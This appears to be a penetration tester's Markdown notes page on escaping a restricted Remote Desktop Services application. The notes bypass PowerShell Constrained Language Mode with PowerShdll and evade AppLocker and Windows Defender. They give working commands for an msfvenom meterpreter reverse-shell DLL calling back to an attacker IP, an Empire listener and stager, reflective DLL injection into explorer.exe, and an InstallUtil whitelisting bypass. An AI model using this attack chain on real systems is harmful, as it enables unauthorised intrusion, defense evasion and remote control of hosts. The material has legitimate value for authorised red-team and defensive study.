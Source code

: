 # From RDS app to Empire shell
This article details a scenario where you only have access to a Remote Desktop Service. This effectively atttemps to lock you to one application one, much similar to Citrix seen in corporate environments.
Additionally this scenario has Applocker on the target box, Powershell is in Language Constrained Mode which prevents many powershell tricks from being used. On top of that Windows Defender is eating your shells.

**Requirements:**
* The RDS server does not block port 80 outbound.
* .Net v3.5 for dll mode in PowerShdll

#### Getting shell from RDS notepad
https://blog.netspi.com/breaking-out-of-applications-deployed-via-terminal-services-citrix-and-kiosks/
https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/

From the notepad app
Click Help -> View help -> triggers Internet Explorer
Right click on anything -> save target as -> save as lol.ps1 on the Desktop
Press view downloads in IE, press the dropdown on the file, open with -> notepad. then just write powershell.exe in the file and save again
Now right click -> "save target as" in IE again. Go to the dropdown "save as type" and select "all files". The ps1-file you have saved will be revealed and you can just press "run with powershell" and a powershell prompt should pop up. This shell should be in Constrained mode. Verify with `$ExecutionContext.SessionState.LanguageMode`, which should say `ConstrainedLanguage`.

#### Bypssing PoSh constrained mode
Download PowerShdll
https://github.com/p3nt4/PowerShdll
Now go to IE again, host powershdll.dll on Kali web server using `python -m SimpleHTTPServer 80`
Navigate to the following URL in IE where http://10.7.253.10/PowerShdll.dll
Save as -> PowerShdll.dll on the Desktop
Now navigate to the desktop in the other powershell prompt
Use rundll32 to execute the dll
rundll32 .\PowerShdll.dll,main -w
A new interactive powershell prompt should pop up
Verify that constrained language mode has been bypassed with
$ExecutionContext.SessionState.LanguageMode
It should say FullLanguage

#### Getting meterpreter shell

```
msfvenom windows/x64/meterpreter/reverse_tcp lhost=10.7.253.10 lport=8081 -f dll -o msf.dll
```

Set up listener in msf with same payload, host and port.
use
Download the msf.dll using internet explorer save as trick from before
Use rundll32 to execute the dll. We use this because rundll32 is a binary that will not be blocked by Applocker.

`rundll32 .\PowerShdll.dll,Control_RunDLL`


Shell should now spawn in msf

#### Empire without powershell.exe
This assumes you have a metasploit Session
In Empire, create an empire listener and stager. The important things is to set Base64 to false to prevent the stager from calling powershell.exe, which won't work here because of the constrained language mode.
```
uselistener http
set Host 10.7.253.18
set Port 4444
execute
back
usestager multi/launcher
set Base64 false
generate
```

Now in MSF:
```
load powershell
powershell_shell
```
Copypaste the empire listener in the interactive shell, and an agent should spawn in Empire. Congratulations!


### Other useful links


https://bneg.io/2017/07/26/empire-without-powershell-exe/
https://artofpwn.com/offensive-and-defensive-powershell-ii.html
https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell
https://github.com/caseysmithrc/DeviceGuardBypasses
https://github.com/Joshua1909/AllTheThings
https://disman.tl/2015/01/30/an-improved-reflective-dll-injection-technique.html



## More advanced technique

#### Bypassing powershell constrained mode and applocker
This technique involves packing everything together several times to bypass all the security mechanisms. I recommend reading the article below and trying to replicate each step. Albeit, I have made a step by step overview of it below.
https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell

1 Generate a listener and a hta stager using windows/hta

2 Open ReflectivePick project in visual studio. Add the hta base64 shell stager where appropriate and compile the dll to `ReflectivePick_x64.dll`

3 Use the following commands in PS to encode the DLL to base64 and pipe the results to a file
```
$Content = Get-Content .\ReflectivePick_x64.dll -Encoding Byte
$Encoded = [System.Convert]::ToBase64String($Content)
$Encoded | Out-File "C:\Windows\Tasks\dll.txt"
```



4 Copypaste the content of dll.txt into a variable 
```
$dllData in .\Invoke-ReflectivePEInjection.ps1 and add the following lines
$dllData = "DLLBASE64"
$ProcId = (Get-Process explorer).Id
$Bytes = [System.Convert]::FromBase64String($dllData)
Invoke-ReflectivePEInjection -PEBytes $Bytes -ProcId $ProcId
```


5 Base64 encode the entire script using https://www.base64encode.org/
Open the Bypass project in VS and copypaste the base64 into the encoded variable.
Compile to Bypass.exe with VS.

6 Use installutil.exe to execute bypass.exe

```
set-location \\tsclient\lkylabs
copy-item .\Bypass.exe c:\windows\tasks
cd c:\windows\tasks
C:\windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Tasks\Bypass.exe
```
